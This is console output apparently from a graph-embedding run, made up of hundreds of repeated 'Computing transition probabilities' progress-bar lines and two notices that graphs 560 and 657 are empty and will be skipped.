Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/15 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/18 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/15 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/16 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/8 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/17 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/17 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/17 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/18 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/15 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/18 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/15 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/9 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/17 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/17 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/17 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/17 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/15 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Graph 560 is empty and will be skipped.


Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/17 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/16 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/9 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/8 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Graph 657 is empty and will be skipped.


Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/19 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/21 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

